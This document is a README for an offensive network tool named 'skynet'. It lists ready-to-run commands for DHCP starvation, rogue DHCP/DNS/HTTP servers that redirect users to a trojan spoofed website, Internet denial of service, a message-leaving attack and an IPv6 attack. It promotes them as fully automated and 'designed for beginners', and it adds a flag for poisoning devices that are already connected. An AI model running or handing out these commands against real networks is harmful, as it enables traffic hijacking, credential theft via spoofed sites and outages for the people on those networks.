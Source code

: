 # Skynet Command Showcase

This repository demonstrates various skynet commands and attacks. Each command is accompanied by a brief description and an image illustrating the attack.
This modes of attack are 100% automated. The user only have to execute it and wait. They are designed for beginners.
**IMPORTANT: to try to poison devices that have already connected, use "--delete-leases-attack" argument with all the command.**

## Table of Contents

1. [Command 1: Website spoofing](#command-1-website-spoofing)
2. [Command 2: Internet DoS](#command-2-internet-DoS)
3. [Command 3: Passive internet DoS with message](#command-3-passive-internet-DoS-with-message)
4. [Command 4: IPv6 attack](#command-4-IPv6-attack)

## Command 1: Website spoofing

### Description
First does a DoS to the legit DHCP, then starts a rogue DHCP+DNS+HTTP server instances. All in the second phase pointing to the attacker's machine.

### Command
```bash
sudo ./skynet --attack --create-pool --all-queries-to-this-host --create-trojan-web 0
```

### Image
![spoofing](../images/website-spoofing.png)

## Command 2: Internet DoS

### Description
This attack leaves hosts that receive configuration via DHCP without an Internet connection.

### Command
```bash
sudo ./skynet --fast-attack --create-random-pool
```

### Image
![Internet DoS](../images/internet-DoS.png)

## Command 3: Passive internet DoS with message

### Description
This attack leaves a message on the server it attacks and leaves without internet due to the absence of a DHCP server.

### Command
```bash
sudo ./skynet --leave-a-message "t-P0wned HAHA" --attack
```

### Image
![Passive internet DoS with message](../images/passive-internet-DoS-with-message.png)

## Command 4: IPv6 attack

### Description
This attack is for the IPv6 protocol.

### Command
```bash
sudo ./skynet --ipv6 --no-draw --continued-attack
```

### Image
![IPv6 attack](../images/IPv6-attack.png)
